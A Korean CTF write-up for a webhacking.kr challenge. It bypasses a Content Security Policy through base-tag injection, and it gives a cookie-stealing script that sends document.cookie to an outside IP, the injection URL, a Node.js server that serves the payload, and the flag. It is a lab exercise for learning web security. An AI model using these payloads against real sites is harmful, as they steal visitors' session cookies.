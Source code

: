 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-03-29-26.png)


# **Write-Up**

script.js를 로드하고 있다.

![](images/2022-01-03-03-29-37.png)

script.js에서는 report.php라는 링크를 알려준다.

![](images/2022-01-03-03-29-42.png)

script태그를 넣으면 CSP(Content Security Policy)에 의해서 javascript를 사용할 수는 없었다.

> [CSP](https://ko.wikipedia.org/wiki/%EC%BD%98%ED%85%90%EC%B8%A0_%EB%B3%B4%EC%95%88_%EC%A0%95%EC%B1%85)

![](images/2022-01-03-03-30-15.png)

하지만 base 태그를 이용하여 injection을 시도할 수 있다.

    ?inject=<base href="http://0.0.0.0/">

![](images/2022-01-03-03-30-20.png)

cookie를 탈취할 수 있게 script.js를 작성해보자.

```javascript
window.location.href = "http://61.251.215.194/"+document.cookie;
```

그리고 base태그를 이용하여 접속하자.

    http://webhacking.kr:10010/?inject=%3Cbase%20href=%22http://61.251.215.194/%22%3E

그러면 script.js를 로드하고 코드에 의해 cookie가 오는 것을 확인할 수 있다.

![](images/2022-01-03-03-30-39.png)

report.php에 ?inject=\<base href="http://61.251.215.194/">를 넣어 FLAG를 확인하자.

![](images/2022-01-03-03-30-53.png)

FLAG를 인증하여 점수를 획득하자. 근데 이상하게 포맷이 다르다. flag로 소문자로 넣어야 한다.

![](images/2022-01-03-03-30-58.png)


# **FLAG**

**flag{base_is_basic}**

* node js를 이용하여 할 수도 있다.
```shell
# node js 설치
root@ubuntu:~# apt install -y nodejs npm

# script.js
var http = require('http');

http.createServer(function (req, res) {
        console.log(req.url)
        res.end('window.location.href = "http://61.251.215.194/"+document.cookie;');
}).listen(777);

# node js server 실행
root@ubuntu:~# node script.js
```